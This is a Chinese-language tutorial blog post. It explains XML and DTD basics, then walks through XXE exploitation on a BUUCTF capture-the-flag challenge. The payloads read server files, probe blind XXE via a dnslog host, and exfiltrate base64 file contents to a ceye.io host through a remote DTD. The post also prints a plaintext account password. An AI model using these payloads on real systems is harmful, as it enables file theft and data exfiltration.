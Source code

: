 # XML简介

a) xml， eXtensible Markup Language， 可拓展标记语言.是一种标记语言.
b) xml是一种非常灵活的语言， 没有固定的标签， 所有的标签都可以自定义.
c) 通常，xml被用于信息的记录和传递. 因此xml经常用于充当配置文件

# XML格式

a) 声明信息 ,用于描述XML的版本,编码方式.

版本始终是1.0 编码一般选utf-8



```
<?xml version="1.0" encoding="UTF-8"?>
```

b) 根元素 (一对标签)

根元素有且仅有一个

c) xml是大小写敏感的

d) 标签是成对的,而且要正确嵌套

e) 属性值要使用双引号

下面id就是属性,""里面是属性值



```
<?xml version="1.0" encoding="utf-8"?>
<a>
	<aa id="101">
		xxx
	</aa>
</a>
```

f) 注释写法



```
<!-- 这里是注释-->
```



```
<?xml version="1.0" encoding="utf-8"?>
<books>
	<book>
		<name>
			xml101
		</name>
		<author>
			张三
		</author>
		<price>
			50.5
		</price>
	</book>
	<book>
		<name>
			xml102
		</name>
		<author>
			李四
		</author>
		<price>
			40.4
		</price>
	</book>
</books>
<!-- 这里是注释-->
```

可以直接用浏览器打开

[![img](https://img2020.cnblogs.com/blog/1863787/202007/1863787-20200718221811798-883476438.png)](https://img2020.cnblogs.com/blog/1863787/202007/1863787-20200718221811798-883476438.png)

还可以折叠

[![img](https://img2020.cnblogs.com/blog/1863787/202007/1863787-20200718221831430-1061889293.png)](https://img2020.cnblogs.com/blog/1863787/202007/1863787-20200718221831430-1061889293.png)

# DTD

## DTD简介

a) DTD , Document Type Definition,文档类型定义

b) DTD 用于约束xml的文档格式，保证xml是一个有效的xml.

c) DTD 可以分为两种，内部DTD,外部DTD.

## DTD内部声明

假如 DTD 被包含在您的 XML 源文件中，它应当通过下面的语法包装在一个 DOCTYPE 声明中：



```
<!DOCTYPE 根元素 [元素声明]>
```

元素声明语法 :

**数量词**

`+`: 出现一次或多次
`?`: 出现0次或一次
`*`: 出现任意次



# XML漏洞



利用方式1:(buuctf  Fake XML cookbook)

条件:**当输入错误用户名和密码时,服务段会返回用户名**

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./doLogin.php"> 
]>

<user><username>&xxe;</username><password>123</password></user>
```

burpsuite抓包之后填充以上内容

#读取网页源码

利用方式2:

读取文件

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY xxe SYSTEM "file:///flag"> 
]>

<user><username>&xxe;</username><password>123</password></user>
```

以上是存在回显的利用，输入的参数会在服务端中返回，那么当参数不回显时怎么利用呢？



当用户名错误和密码错误服务端直接返回登录成功和登录失败，不把输入的参数回显出来。这样即使存在XXE漏洞，我们直接构造读取文件的payload，由于数据不回显，我们也无法获取到读取的数据内容。

无回显只是不能获取数据内容，但实则攻击载荷还是会执行。所以可以利用ssrf快速的判断是否存在xxe漏洞(前提是服务器出网)：
使用dnslog平台([DNSLog Platform](http://www.dnslog.cn/))，利用xxe漏洞让服务器访问dnslog，如果存在访问记录就代表漏洞利用成功



```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY % xxe SYSTEM "http://2n24n8.dnslog.cn">
%xxe; 
]>

<user><username>aaaa</username><password>123</password></user>
```

那么如何获取数据内容呢？

**利用方式1:** 外部搭建http服务器，将读取的内容当作请求参数访问外部的Http服务器，查看http服务器的访问记录就能获取文件内容
利用[ceye](http://ceye.io/)平台(password:Chen88222030)接收http请求



```
<!DOCTYPE updateProfile [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./doLogin.php">
<!ENTITY % dtd SYSTEM "http://本机ip:88/1.dtd">
%dtd;
%send;
]>

<user><username>aaaa</username><password>123</password></user>
```

1.dtd内容如下

>```
><!ENTITY % all 
>"<!ENTITY &#x25; send SYSTEM 'http://cyuhik.ceye.io/?data=%file;'>"
>
>>%all;
>```
>
>
>